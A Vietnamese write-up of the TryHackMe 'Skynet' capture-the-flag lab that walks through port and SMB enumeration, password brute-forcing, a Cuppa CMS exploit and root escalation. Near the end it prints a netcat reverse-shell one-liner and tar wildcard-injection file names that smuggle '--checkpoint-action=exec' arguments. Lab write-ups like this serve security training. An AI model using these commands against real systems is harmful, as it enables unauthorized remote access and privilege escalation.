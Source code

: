 ```yaml
---
template: overrides/blog.html
icon: material/plus-circle
title: Skynet
description: >
  
search:
  exclude: true
hide:
  - feedback


tags:
  - THM-Room
  - Privilege Escalation
---
```


# __Skynet__

--- 

## __Task 1  Deploy and compromise the vulnerable machine!__

![Alt text](image.png)

Are you able to compromise this Terminator themed machine?

![Alt text](image-1.png)

You can follow our official walkthrough for this challenge on [our blog](https://blog.tryhackme.com/skynet-writeup/).

### __Answer the questions bellow__

!!! question "What is Miles password for his emails?"

!!! question "What is the vulnerability called when you can include a remote file for malicious purposes?"

### __Scenario__

HOST: 10.10.158.216

Đầu tiên, scan port

```ps1 title="CMD"
└─$ sudo nmap 10.10.158.216
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-24 09:49 EDT
Nmap scan report for 10.10.158.216
Host is up (0.30s latency).
Not shown: 994 closed tcp ports (reset)
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
110/tcp open  pop3
139/tcp open  netbios-ssn
143/tcp open  imap
445/tcp open  microsoft-ds

Nmap done: 1 IP address (1 host up) scanned in 5.29 seconds
```

Và scan dir bằng gobuster ra nhận được /squirrelmail mang chức năng đăng nhập tài khoản squirrelmail. Từ đây sẽ là tiền đề để ta có thể có những bước tiếp cận tiếp theo.

Nhìn vào kết quả của nmap, ta thấy có dịch vụ smb từ port 445 và 139. Ưu tiên scan smb để xem có gì để khai thác tiếp không.

```
└─$ smbmap  -H 10.10.158.216
[+] Guest session       IP: 10.10.158.216:445   Name: 10.10.158.216                                     
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        anonymous                                               READ ONLY       Skynet Anonymous Share
        milesdyson                                              NO ACCESS       Miles Dyson Personal Share
        IPC$                                                    NO ACCESS       IPC Service (skynet server (Samba, Ubuntu))
         
```

Từ kết quả trên, ta thấy rằng smb cho phép login ẩn danh nhưng chỉnh có quyền đọc file/folder thôi (nhưng như thế đã quá đủ rùi ::) ). 

??? tip "Hửm???"
    smbclient //10.10.158.216/anonymous

Sau khi vào bằng ẩn danh ta osint tiếp và tìm được file chứa dãy từ đặc biệt, ta đoán đây là password cho user `milesdyson`.

Brute force password và login vào trang /squirrelmail, ta được giao diện chính. Tiếp tục lại thấy email reset password, lần này là pass smb.

![Alt text](image-2.png)

??? tip "Hửm???"
    smbclient //10.10.158.216/milesdyson -U=milesdyson 
    
    > pass: )s{A&2Z=F^n_E.B`

Login và nhận được domain mới, gobuster tiếp để nhận được giao diện login của cuppa cms ::)

??? info "Hửm???"
    Thực ra ngay chỗ squirrelmail, ta dùng searchsploit để khai thác thì ra được RCE nhưng mình mãi khum khai khác được chỗ đó, nên mới tìm hướng tiếp .-.

Roài tới đây thì step by step theo `searchsploit cuppa cms` là ra kết quả :3

??? tip "Hửm"
    ![Alt text](image-3.png)

Chú ý file backup.sh để leo thang đặc quyền root

??? tip "Hửm hửm hửm"
    cd /var/www/html

    ```ps1
    echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1| nc HOST PORT >/tmp/f" > shell.sh
    echo "" > "--checkpoint-action=exec=sh shell.sh"
    echo "" > --checkpoint=1
    ```

Video khai thác

<iframe width="560" height="315" src="https://www.youtube.com/embed/2MhFNwcKdnY?si=Es4eadjjwrzUbelY" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" allowfullscreen></iframe>